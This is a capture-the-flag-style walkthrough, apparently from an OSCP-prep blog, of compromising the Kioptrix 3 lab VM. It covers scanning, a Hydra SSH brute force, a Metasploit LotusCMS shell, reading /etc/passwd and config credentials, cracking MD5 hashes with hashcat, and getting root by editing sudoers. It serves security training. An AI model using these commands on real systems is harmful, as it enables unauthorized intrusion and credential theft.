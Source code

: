 ```yaml
---
published: true
---
```

Vulnhub virtual machine; On the path to OSCP this box offered web-application testing with Metasploit, myphpadmin credentials enumeration. Cracking hashes with Hashcat an interesting Priv-Esc which included modifying the sudoer file. 


----------

Legal Usage:
*The information provided by executeatwill is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.*

*By continued reading, you acknowledge the aforementioned user risk/responsibilities.*


----------


# Enumeration


    netdiscover -r 192.168.56.0/24

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550620463329_image.png)


Target: 192.168.56.105

Nmap Scanning

    nmap -sV -sC -oA nmap/kio3 192.168.56.105

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550620567596_image.png)


Navigating to http-server on port 80

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550620689788_image.png)


searchsploit for web application

    searchsploit lingoat

nothing of note turned up.

Checking out the source of web-application

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550620811976_image.png)


*looks to be based off php with the index.php?pagee=index.* 


We have a username `loneferret` who was mentioned on a blog section post. Move to try to bruteforce the ssh with user name.

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550621922502_image.png)


Hydra Bruteforcing SSH

    hydra -e nsr -l loneferret -P /usr/share/wordlists/rockyou.txt 192.168.56.105 ssh -t 4

*Important: to use* `*-t 4*` *to not overload the ssh server and risk some passwords not being tested.*

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550626098217_image.png)


*brute forcing inside a VM is… well terrible.*

Login page

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550620908445_image.png)


searchsploit LotusCMS

    searchsploit LotusCMS

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550620973843_image.png)


*interesting find*

Viewing how the Metasploit vulnerability works

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550621164831_image.png)


*There is a manipulation of the page parameter from the default page that will be worth investigating.*

# Remote Code Execution

Run metasploit - search lotuscms

    msfdb run

*this will load up the postgres and required files to launch.*

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550622525612_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550622683572_image.png)


*We have achieved an easy shell.*

getuid gets users
sysinfo gets system information

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550623213294_image.png)


capture /etc/passwd

    cat /etc/passwd

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550623289348_image.png)


usernames `loneferret` exists as conformation.

Search for any type of config files

    search -d /home/www/kioptrix3.com -f *config*

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550623502933_image.png)


Investigating config files

    cat /home/www/kioptrix3.com/gallery/gconfig.php

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550623589054_image.png)


*myphpadmin user/password discovered!*

Login to myphpadmin
navigate to kioptrix3.com/phpmyadmin

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550623701859_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550623748274_image.png)


*access granted*

Navigating through MySQL sever to the Gallery database and discovered `dev_accounts`

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550623926024_image.png)


Hashes captured

    dreg: 0d3eccfb887aabd50f243b3f155c0f85
    loneferret: 5badcaf789d3d1d09794d8f021f40f0e

Determining type of hash

    hash-identifier

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550624096240_image.png)


*MD5 looks like a possible match.*

Cracking Hashes with Hashcat
add hashes to hash.txt

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550624471131_image.png)


Launch Hashcat

    hashcat -m 0 -a 0 hash.txt rockyou.txt -o cracked.txt

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550624798144_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550625123167_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550625156643_image.png)


*Hashes successfully cracked.*

    dreg       - 0d3eccfb887aabd50f243b3f155c0f85: starwars
    loneferret - 5badcaf789d3d1d09794d8f021f40f0e: Mast3r


Connect to SSH

    ssh loneferret@kioptix3.com

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550625371491_image.png)


perform a quick sudo -l to determine what we can su-DO. (joke complementary)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550625450327_image.png)


# Priv-Esc

execute sudo ht

    sudo ht

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550625527269_image.png)


playing around till discovered `*ALT+f*` is the command to move around in application

Modifying the sudoers file

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550625773032_image.png)


adding `/bin/sh/` to loneferret && save file

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550625879783_image.png)


# Root

    sudo /bin/sh

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CC08525AD79B48322850AD1912C5BDF4DB72C17615EAC39B7E18253B209C0B95_1550626004346_image.png)


Bring me the root!

-exec
